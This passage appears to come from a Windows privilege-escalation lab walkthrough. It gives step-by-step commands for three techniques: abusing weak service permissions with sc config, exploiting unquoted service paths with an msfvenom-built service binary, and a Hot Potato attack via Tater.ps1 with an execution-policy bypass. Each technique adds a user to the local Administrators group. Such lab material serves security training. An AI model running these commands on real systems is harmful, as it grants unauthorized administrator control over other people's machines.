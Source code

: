 #### Exploitation

Windows VM

1. In command prompt type: sc config daclsvc binpath= "net localgroup administrators user /add"
2. In command prompt type: sc start daclsvc
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators

***

### Unquoted Service Paths

#### Detection

Windows VM

1. Open command prompt and type: sc qc unquotedsvc
2. Notice that the “BINARY\_PATH\_NAME” field displays a path that is not confined between quotes.

#### Exploitation

Kali VM

1. Open command prompt and type: msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
2. Copy the generated file, common.exe, to the Windows VM.

Windows VM

1. Place common.exe in ‘C:\Program Files\Unquoted Path Service’.
2. Open command prompt and type: sc start unquotedsvc
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators

***

### Hot Potato

#### Exploitation

Windows VM

1. In command prompt type: powershell.exe -nop -ep bypass
2. In Power Shell prompt type: Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
3. In Power Shell prompt type: Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
4. To confirm that the attack was successful, in Power Shell prompt type: net localgroup administrators

***

### Configuration Files

#### Exploitation
